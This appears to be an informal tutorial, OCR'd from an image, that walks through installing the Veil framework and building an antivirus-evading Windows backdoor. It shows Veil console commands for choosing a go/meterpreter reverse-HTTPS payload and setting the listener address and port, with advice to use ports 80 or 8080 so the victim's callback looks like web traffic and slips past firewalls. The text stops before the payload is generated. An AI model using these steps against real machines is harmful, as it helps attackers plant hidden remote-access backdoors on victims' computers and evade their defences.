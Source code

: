 ./setup.sh --silent --force

now start veil by ./Veil.py


or do:

	apt -y install veil
	/usr/share/veil/config/setup.sh --force --silent

Lets make a payload for a windows pc


It hast 2 main tools type ▶️> list    to see it

it shows evasion and ordance

Evasion generates undetectable backdoors for us

Ordance generates the payloads that used by evasion


	Available Tools:

	  1)  Evasion
	  2)  Ordnance
	  
▶️> use 1

▶️> list [shows all payloads]

	
Now it shows the available payloads:

eg: go/meterpreter/rev_https.py

it is divided into 3 parts, first part is the language(here go lang), 2nd part is the type of the payload, 3rd part is the method used to establish connection.


Now we neet to set the payload 

▶️> use 15

 
Now we need to set the options. There we need to set the ip of the metasploit handler, thatt means the ip to which the connection is recieving. So we need to set the ip address which the payload will try to connect back to, in our case we wantto recieve connection back to our computer.

So we set the ip lhost to our ip.

▶️> set LHOST 10.20.14.213

▶️> set LPORT 80

[ As the victim connects via port 80, there is nothing suspecious there, it look like the victim connect to a website ]

But if we have a service running on port 80 kill the process or set the port to another one like:

	▶️> set LPORT 8080 [8080 is also used by webservers, so its still not suspecious, it will still bypasss firewalls ]
	
	
▶️> options
